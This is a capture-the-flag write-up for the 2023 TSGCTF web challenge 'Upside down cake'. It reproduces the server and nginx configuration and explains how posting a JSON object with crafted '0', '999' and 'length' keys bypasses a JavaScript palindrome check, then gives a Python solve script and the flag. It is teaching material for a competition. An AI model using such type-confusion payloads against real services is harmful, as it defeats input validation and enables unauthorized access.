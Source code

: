```yaml
---
title: 2023 TSGCTF - Upside down cake
date: 2023-11-04 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_TSGCTF
  - Web Exploitation
---
```


## Overview

* 100 points / 127 solves
* Author: hakatashi
* tag: warmup

## Description

> I checked 413 times to see if the settings are correct.

### Attached

[upside-down_cake.zip](https://github.com/nqthangcs/CTF-writeups/blob/main/2023/2023_TSGCTF/attached/upside-down_cake.zip)

This is ```main.mjs``` file

```mjs
import {serve} from '@hono/node-server';
import {serveStatic} from '@hono/node-server/serve-static';
import {Hono} from 'hono';

const flag = process.env.FLAG ?? 'DUMMY{DUMMY}';

const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}

const app = new Hono();

app.get('/', serveStatic({root: '.'}));

app.post('/', async (c) => {
	const {palindrome} = await c.req.json();
	const error = validatePalindrome(palindrome);
	if (error) {
		c.status(400);
		return c.text(error);
	}
	return c.text(`I love you! Flag is ${flag}`);
});

app.port = 12349;

serve(app);
```

## Analyzation

In this challenge, we have to pass the checker ```validatePalindrome(palindrome)``` to get flag

```mjs
const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}
```

Firstly, I thought that just post a string length 1000 and get flag. But not so fast like that, check ```nginx.conf``` file

```conf
events {
	worker_connections 1024;
}

http {
	server {
		listen 0.0.0.0:12349;
		client_max_body_size 100;
		location / {
			proxy_pass http://app:12349;
			proxy_read_timeout 5s;
		}
	}
}
```

So we must post a string with length < 100, but bypass the checker. Sounds impossible...

Hmm...

## Vulnerability

Who said that only strings are allowed?

## Exploitation

We can post an object, or an array. However, arrays won't work here because they fail to meet the length condition. 

We need a data type that doesn't have a length attribute. An object (also known as a map in C++ or a dictionary in Python) fits this requirement.

### Approach 1

With an object, string.length returns undefined, so the condition string.length < 1000 evaluates to true. Pass!

However, there is a problem with the loop: the index ```string.length - i - 1``` is inaccessible.

Slow down a little bit. since ```string.length - i - 1``` equals ```NaN```, so just give an object attribute ```NaN```, done!

This is the data will be post to the site.

```py
data = {
	"0": "a",
	"NaN": "a"
}
payload = { "palindrome": data}
```

### Approach 2

This is an object, so its attributes are accessible by dot operator, too! It tooks me so many time to realise this.

```py
data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}
payload = { "palindrome": data}
```

***Note***: Python is different from javascript.

```py
data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}

print(data["length"]) # print 1000
print(len(data))	  # print 3
print(data.__len__()) # print 3
```

## Solution

```py
import requests

# URL = "http://localhost:12349/"
URL = "http://34.84.176.251:12349/"
HEADERS = {'Content-Type': 'application/json'}

data = {
    "0": "a",
    "999": "a",
    "length": "1000"
}
payload = { "palindrome": data}

response = requests.post(URL, json=payload, headers=HEADERS)
print(response.content)
```

The flag is

```
TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}
```